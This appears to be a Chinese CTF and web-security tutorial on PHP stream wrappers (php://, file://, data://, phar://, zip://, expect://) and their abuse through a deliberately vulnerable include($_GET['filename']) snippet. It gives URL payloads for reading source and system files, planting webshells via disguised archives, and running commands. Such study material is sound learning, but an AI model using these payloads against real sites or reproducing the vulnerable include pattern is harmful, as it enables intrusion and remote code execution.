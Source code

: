 ```yaml
---
title: php伪协议
date: 2022-01-21 18:14:55
tags:
      - php
      - 文件包含
      - php伪协议
      - ctf
      - web
categories: php
---
```


# php伪协议

PHP带有很多内置URL风格的封装协议,可用于fopen,copy,file_exists和filesize等文件系统函数.除了这些内置封装协议,还能通过stream_wrapper_register注册自定义的封装协议,这些协议都被称为伪协议<!--more-->

![image-20220121184629529](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/img/image-20220121184629529.png)

常见的php伪协议如下:



- **php:// 访问各个输入输出流**
- file://  访问本地文件系统
- http://访问HTTP(S)网址
- tfp://访问FTP(S)URLzlib://处理压缩流
- data://读取数据
- glob://查找匹配的文件路径模式
- phar:// PHP归档
- ssh2:// Secure Shell2
- rar:// RAR数据压缩
- ogg:// 处理音频流
- expect:// 处理交互式的流

### 1.php://伪协议

#### php://filter

##### 参数列表

![image-20220121183621592](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/img/image-20220121183621592.png)

示例代码:

`?filename=php://filter/read=convert.base64-encode/resource=xxx.php`  

或者

`?filename=php://filter/convert.base64-encode/resource=xxx.php`

#### php://input

php://input可以访问请求的原始数据的只读流,即可以直接读取POST上没有经过解析的原始数据,<label style="background:yellow">但是使用entype="multipart/form-data"(form表单的一个可选参数)的时候php://input是无效的</label>

***php://input有以下三种用法***

##### 1)读取POST数据   

php://input可以直接读取POST上没有经过解析的原始数据利用php://input读取POST数据时,PHP配置文件不需要开启`allow_url_fopen`和`allow_url_include`示例代码如下

```php
<?php
$data=file_get_contents("php://input");
echo $data;
?>
```

##### 2)写入木马

<label style="background:yellow">利用php://input写入木马时,PHP配置文件需要开启allow_url_include,不需要开启allow_url_fopen</label>

如果不开启allow_url_include则会报错

如果POST传入的数据时PHP代码,就可以写入木马

示例代码如下

```php
<?php
$filename=$_GET['filename'];
include($filename);
?>
```

![image-20220121184145894](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/img/image-20220121184145894.png)

访问shell.php即可查看是否写入成功

##### 3)执行命令

<label style="background:yellow">利用php://input执行命令时,PHP配置文件需开启allow_url_include,不需要开启allow_url_fopen</label>

如果post传入的数据是PHP代码,就可以执行任意代码,如果次PHP代码调用了系统函数,就可以执行命令

示例代码如下

```php
<?php
$filename=$_GET['filename'];
include($filename);
?>
```

![image-20220121184329051](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/img/image-20220121184329051.png)

### 2.file://伪协议

file://伪协议可以访问`本地文件系统`,读取文件的内容

利用file://时,PHP配置文件不需要开启allow_url_fopen和allow_url_include

`?filename=file://c:/boot.ini`

file://伪协议示例代码如下:

```php
<?php
$filename=$_GET['filename'];
include($filename);
?>
```

### 3.data://伪协议

自PHP5.2.0起,数据流封装器开始有效,主要用于数据流的读取,如果传入的数据是php代码,就会执行任意代码使用方法如下:

data://text/plain;base64,xxxxxxxxx(base64编码后的数据)

利用data://时,PHP配置文件需开启allow_url_include和allow_url_fopen

data://伪协议示例代码如下

```php
<?php
    $filename=$_GET['filename'];
	include($filename);
?>
```

通过data://伪协议传送`<?php phpinfo();?>`代码的base64编码,这样就可以执行代码

`?filename=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b`

注意点:要对`+`进行手动url编码为%2b![img](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/img/Image(17).png)





### 4.phar://伪协议

phar://是用来进行解压的伪协议,phar://参数中的文件不管是什么扩展名都会被当作压缩包

用法如下:

?file=phar://压缩包/内部文件

`phar://xxx.png/shell.php`

利用phar://时,PHP的版本应高于5.3.0,PHP配置文件需开启`allow_url_include`和`allow_url_fopen`

注意:压缩包需要使用zip://伪协议压缩,而不能用rar://伪协议压缩.将木马文件压缩后,改为其他任意格式的文件都可以正常使用

示例代码如下:

```php
<?php
$filename=$_GET['filename'];
include($filename);
?>
```

利用步骤:通常phar://伪协议用在有上传功能的网站中,写一个木马文件shell.php,然后用zip://伪协议压缩为shell.zip,

![image-20220121183215673](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/img/image-20220121183215673.png)

phar://伪协议把shell.png当做zip文件解压并访问其中的shell.php文件,执行了shell.php文件中的代码

再将扩展名改为.png等,上传到网站

### 5.zip://伪协议

zip://伪协议和phar://伪协议在原理上类似,但是用法不一样

用法如下:(在浏览器中#要手动转换成url编码%23)

`?filename=zip://xxx.png#shell.php`

示例代码如下:

```php
<?php
$filename=$_GET['filename'];
include($filename);
?>
```

![image-20220121184409047](https://picture-1304716932.cos.ap-chengdu.myqcloud.com/img/image-20220121184409047.png)

### 6.expect://伪协议

expect://伪协议主要用来执行系统命令,但是需要安装扩展

用法如下:

`?filename=expect://ls`
